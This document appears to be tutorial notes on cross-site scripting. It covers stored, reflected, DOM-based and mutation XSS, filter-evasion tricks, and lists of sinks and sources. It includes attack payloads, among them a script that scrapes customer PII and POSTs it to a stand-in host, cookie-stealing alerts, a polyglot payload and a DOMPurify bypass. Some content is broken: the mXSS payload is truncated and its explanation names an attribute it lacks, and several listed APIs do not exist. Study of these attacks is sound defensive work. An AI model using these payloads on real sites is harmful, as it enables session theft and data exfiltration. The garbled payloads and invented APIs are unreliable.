




# Chapter 10: Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) occurs when web applications execute dynamically created, user-contaminated scripts in browsers.

### Key Characteristics of XSS Attacks:
- Run a script in the browser that was not written by the web application owner.
- Can run behind the scenes, without any visibility or required user input.
- Can obtain any type of data present in the current web application.
- Can freely send and receive data from a malicious web server.
- Occur as a result of improperly sanitized user input being embedded in the UI.
- Can be used to steal session tokens, leading to account takeover.
- Can be used to draw DOM objects over the current UI (perfect phishing).

## XSS Discovery and Exploitation

The fundamental vulnerability in most XSS attacks stems from a simple architectural mistake: taking user-provided input and interpreting it directly as DOM markup rather than plain text. 

**The Standard Vulnerability Flow:**
1. User submits input (e.g., a comment) via a web form.
2. The input is stored in the database.
3. The input is requested via HTTP by another user (e.g., an admin or customer support rep).
4. The input is injected into the page and interpreted as DOM, executing any included script tags natively.

**Vulnerable Code Example:**
Often, this vulnerability is introduced on the client-side by developers incorrectly using `innerHTML` to append data instead of a secure alternative like `innerText`.

```javascript
// The user input containing unintended HTML or malicious script
const comment = 'my <strong>comment</strong>'; 

// Creating a container
const div = document.createElement('div');

// VULNERABILITY: Appending the string as DOM rather than text
div.innerHTML = comment; 

// Injecting into the live page, causing the payload to execute
const wrapper = document.querySelector('#commentArea');
wrapper.appendChild(div);
```

## Core XSS Categories

### 1. Stored XSS
- **How it works**: The malicious script is permanently stored in the application's database (e.g., user profiles, comments). When other users request the affected data, the script is served and executed automatically in their browser.
- **When to use**: Highly effective for widespread attacks affecting many users simultaneously or for targeting privileged users behind the scenes.
- **Characteristics**: Extremely dangerous due to scale, but easiest to detect since scripts reside server-side.

```javascript
// Example: Stored payload stealing data
const customers = document.querySelectorAll('.openCases');
const customerData = [];
// Iterate through each DOM element containing the openCases class,
// collecting privileged personal identifier information (PII)
customers.forEach((customer) => {
  customerData.push({
    firstName: customer.querySelector('.firstName').innerText,
    lastName: customer.querySelector('.lastName').innerText,
    email: customer.querySelector('.email').innerText,
    phone: customer.querySelector('.phone').innerText
  });
});

const http = new XMLHttpRequest();
http.open('POST', 'https://steal-your-data.com/data', true);
http.setRequestHeader('Content-type', 'application/json');
http.send(JSON.stringify(customerData));
```



### 2. Reflected XSS
- **How it works**: The payload is not stored in a database. Instead, the server reads the payload from the client's request (e.g., URL parameters) and immediately reflects it back into the HTTP response.
- **When to use**: Effective for targeted attacks via email or malicious links, where a specific user is tricked into initiating the request.
- **Characteristics**: Harder to detect server-side as the payload is ephemeral, but generally harder to distribute widely compared to Stored XSS.



```html
<!-- Example: Reflected payload disguised as a legitimate link -->
<a href="https://support.mega-bank.com/search?query=open+<script>alert('test');</script>checking+account">
Create a New Checking Account</a>
```

### 3. DOM-Based XSS (Client-Side XSS)
- **How it works**: Operates entirely within the browser without *ever* requiring interaction with a server. A "source" (a DOM object capable of storing text, like a URL hash) passes data to a "sink" (a DOM API capable of executing text as script) via client-side logic.
- **When to use**: Highly effective against modern, JavaScript-heavy applications that utilize client-side routers (where URL changes do not trigger server requests).
- **Characteristics**: 
  - Nearly impossible to detect with traditional static server analysis tools because the malicious payload never touches the server.
  - Extremely difficult to test and reproduce because execution depends entirely on specific browser DOM implementations. A payload that works on a 2015 browser might fail on a modern one, and implementations differ significantly between Chrome, Firefox, and Safari.

> [!NOTE]
> **What is the URL Hash?**
> The "hash" is the fragment identifier at the end of a URL, starting with the `#` symbol (e.g., `example.com/page#section`). Traditionally used to scroll to specific anchors, modern Single-Page Applications (SPAs) heavily rely on the hash for client-side routing. 
> **Crucially, browsers do not send the URL hash fragment to the server in HTTP requests.** Any data or payload placed in the hash exists *only* on the client side, meaning it completely bypasses all server-side logging, filtration, and sanitization mechanisms.



```javascript
/*
* Grab the hash object from the URL (The SOURCE).
* E.g., investors.mega-bank.com/listing#usa
*/
const hash = document.location.hash;
const funds = [];
const nMatches = findNumberOfMatches(funds, hash);

/*
* Write the number of matches found, plus append the hash
* value to the DOM to improve the user experience.
* The document.write() acts as the SINK.
*/
document.write(nMatches + ' matches found for ' + hash);

// Malicious Link Execution:
// investors.mega-bank.com/listing#<script>alert(document.cookie);</script>
```

---

## Advanced Evasion & Execution Strategies

### Mutation-Based XSS (mXSS)
- **How it works**: Exploits browser DOM rendering optimizations and conditionals. Payloads are crafted to appear safe to sanitizers (like DOMPurify) but are mutated into executable scripts by the browser during DOM generation.
- **When to use**: To bypass robust, industry-standard client-side HTML sanitizers.

```html
<!-- Bypassing DOMPurify by exploiting <noscript> and <template> quirks -->
<noscript><p title="</noscript>">
```
*Why this works*: The payload bypasses filters because tools like DOMPurify often use a `<template>` tag during sanitization. Inside a `<template>` tag, scripting is disabled, and the `<noscript>` tag represents its child elements, rendering the `onerror` attribute harmless during the check. However, when moved to a real browser DOM where scripting is enabled, the `<noscript>` tag acts differently, exposing the broken `title` attribute and validating the `onerror` script execution.



### Self-Closing HTML Tags
- **How it works**: Browsers automatically close incomplete HTML tags. Attackers provide broken script tags that bypass client-side tag-pair validation, which are then reconstructed and executed by the browser.
- **When to use**: When filters evaluate complete tag pairs and drop full `<script></script>` tags but ignore unclosed tags.

```javascript
<script>alert() // actual code
<script>alert()<script> // browser "fixed" code
```

### Protocol-Relative URLs (PRURLs)
- **How it works**: Uses URLs starting with `//` instead of `http://` or `https://`. The browser dynamically resolves the protocol based on the environment.
- **When to use**: When payload filters explicitly block `http://` or `https://` schemas but allow generic URL string attributes.

```html
<a href="//evil-website.com">click</a> <!-- not filtered -->
```

### Malformed Tags
- **How it works**: Attackers intentionally mangle HTML syntax (e.g., irregular quotes/slashes). Static filters miss the payload, but modern browsers' regenerative logic corrects the syntax prior to DOM load, resulting in execution.
- **When to use**: When strict static analysis filters block well-formed payloads but fail to account for browser error-correction logic.

```html
\<a onmouseover=alert(document.cookie)\>xxs\</a\>
<SCRIPT>alert("XSS")</SCRIPT>"\>
```

### Encoding Escapes
- **How it works**: Attackers substitute Latin characters with Unicode/Hex equivalents (e.g., `\u0061` for `a`). The browser's JS interpreter decodes and executes the payload, but static string filters fail to recognize the encoded keywords.
- **When to use**: When static analysis or regex filters block specific JavaScript keywords like `alert` or `script`.

```javascript
\u0061lert(1) // Executed as alert(1)
```

### Polyglot Payloads
- **How it works**: A single payload carefully crafted to be syntactically valid and executable across multiple different context boundaries (e.g., inside strings, HTML comments, attribute fields, or tags).
- **When to use**: To minimize brute force efforts when the exact reflection context is unknown, heavily filtered, or when exploiting an application with multiple injection contexts.

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/**/oNcliCk=alert() )
//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>
\x3csVg/<sVg/oNloAd=alert()//>\x3e`
```

---

## XSS Sinks and Sources

Exploitable XSS vulnerabilities require both an input vector (**source**) and an execution method (**sink**). 

### Notable Sinks (Execution points)
*Common:*
- `eval()`, `<script>`, `javascript://`
- `document.write()`, `document.writeln()`, `element.innerHTML`

*Uncommon (Useful for evasion):*
- `document.domain()`, `element.outerHTML`
- `Function()`, `setTimeout()`, `setInterval()`, `execScript()`
- `ScriptElement.src`, `document.location`, `range.createContextualFragment`

### Notable Sources (Input points)
*Common:*
- `document.url`, `window.location.search`, `window.location.hash`
- `window.location.pathname`, `window.location.href`, `window.location.cookie`

*Uncommon (Useful for evasion):*
- `document.documentURI`, `document.baseURI`, `document.URLEncoded`
- `window.name`, `document.referrer`, `history.pushState()`
- `localStorage`, `sessionStorage`, `window.indexedDB`
